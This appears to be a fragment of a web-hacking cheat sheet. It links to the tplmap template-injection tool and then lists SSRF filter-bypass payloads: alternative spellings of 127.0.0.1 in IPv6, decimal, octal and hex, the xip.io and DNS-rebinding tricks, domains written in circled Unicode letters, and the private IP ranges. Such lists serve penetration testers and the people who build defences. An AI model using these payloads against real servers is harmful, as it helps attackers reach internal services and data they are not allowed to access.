 ## Tool
- https://github.com/epinna/tplmap

---

http://blog.portswigger.net/2015/08/server-side-template-injection.html

# SSRF

## Bypass 127.0.0.1 

```
127.0.0.1
localhost
127.0.1
127.1
0.0.0.0
0.0
0

::1
::127.0.0.1
::ffff:127.0.0.1
::1%1

127.12.34.56 (127.0.0.1/8)
127.0.0.1.xip.io

http://2130706433 (decimal)
http://0x7f000001
http://017700000001
http://0x7f.0x0.0x0.0x1
http://0177.0.0.1
http://0177.01.01.01
http://0x7f.1
http://[::]
http://127.0.0.1@

DNS重绑定
```

## Bypass using Ⓐ Ⓑ Ⓒ Ⓓ

- `http://ⓀⒶⒾⒷⓇⓄ.ⓉⓌ`
- `http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ`

## 内网IP

- `10.0.0.0/8`
- `172.16.0.0/12`
- `192.168.0.0/16`
